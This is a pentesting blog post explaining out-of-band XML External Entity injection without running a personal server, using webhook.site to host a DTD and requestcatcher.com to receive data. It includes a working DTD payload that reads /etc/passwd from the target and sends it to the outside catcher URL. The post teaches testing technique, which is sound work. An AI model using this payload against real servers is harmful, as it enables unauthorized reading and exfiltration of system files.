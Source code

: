 ```yaml
---
layout:     post
title:      "XML External Entity (XXE) Injection Without Personal Servers"
date:       2019-06-22
author:     "Tech"
header-img: "img/post-XXE-injection-without-personal-servers.jpeg"
tags:
    - Pentesting
    - XXE
---
```


## XML External Entity (XXE) Injection Without Personal Servers

--------

Most post I read online regarding XXEs introduce the idea of spinning up a quick webserver to deliver and recieve content. While testing out some XXEs vulnerabilities, I didn't have the luxury of port forwarding my network, or spinning up a digital ocean droplet. I found a clever way to still conduct my testing under these constraints that I'll be talking about in this post. 

---------

### What is XXE?

An XML External Entity (XXE) injection is a serious flaw that allows an attacker to read local files on the server, access internal networks, scan internal ports, or execute commands on a remote server. It targets applications that parse XMLs.

This attack occurs when an XML input containing references to an external entity is processed by a weakly configured XML parser. The attacker takes advantage of it by embedding malicious inline DOCTYPE definition in the XML data. When the web server processes the malicious XML input, the entities are expanded, which results in potentially gaining access to a web server's file system, remote file system access, or establishing  connections to arbitrary hosts over HTTP/HTTPS.



---------

### Post Request

I'll assume you already know that the framework your working is can accept XML entities.

We'll typically see a regular post request look like:

```header
POST /login-form HTTP/1.1
Host: vulnerable.host
User-Agent: techryptic
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=test&password=test
```

Turning the above POST request into an XML request by removing some clutter, and changing the Content-type header.

```header
POST /login-form HTTP/1.1
Host: vulnerable.host
User-Agent: techryptic
Connection: close
Content-Type: text/xml
Content-Length: 30

<?xml version="1.0"?>
<test>tested</test>
```

---------

### Serving the DTD

A "Valid" XML document is a "Well Formed" XML document, which also conforms to the rules of a DTD:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "WEBSITE/test.dtd">
<test>&e1;</test>
```

The DOCTYPE declaration, in the example above, is a reference to an external DTD file.

In this case, we'll be supplying an external DTD. This is what spark the making of this post. Since I didn't want to setup port forward on my home network, or had any usable droplets from digital ocean on hand. The best way was to chain it with various online catchers.

---------
### Request Catcher

Just as the title says, the last request made will be set to [requestcatcher.com](requestcatcher.com). Set up a URL, in this case I set: 

> https://tech.requestcatcher.com

We'll inject this URL in the callback in the webhooking session. All in all, here is where we will see the contents of the command we used, in this case it's the contents of /etc/passwd on the webserver.

---------
### Webhooking

Example url: 
>webhook.site/aaf35306-2e6a
Be sure to use this URL in the 'Serving the DTD' section, replace WEBSITE/test.dtd with this URL.

I went with [https://webhook.site](https://webhook.site) for catching the test.dtd request. One great option is that your able to 'Edit' the URL information on this hook.

You'll want to insert the below into the Response body of the webhook.site site. Add in the Request Catcher URL from above to catch the response of the command.

```xml
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'https://tech.requestcatcher.com?/test?%p1;'>">
%p2;
```
This DTD will force the XML parser to read the content of /etc/passwd and assigned it to the variable p1. Then it will create another variable p2 that contains a link to your malicious server and the value of p1. Finally it will print the value of p2 using the %p2.

---------
### Game Play

A quick break down:

We sent a post request calling out an external DTD (webhook.site), on the webhook site. On our webhook.site, we setup the response body to read the /etc/passwd file, and send those results to the request catcher website. The request catcher will read all request and print out what is shown. 

All in all:

![](img/in-post/post-js-version/xxe-passwd.png) 

---------
### Notes

You don't need to run with HTTPS for everything. I only got the above results after switching all URLs to http.

External Link with valuable Information:

>[https://pentesterlab.com/exercises/play_xxe](https://pentesterlab.com/exercises/play_xxe) 

---------
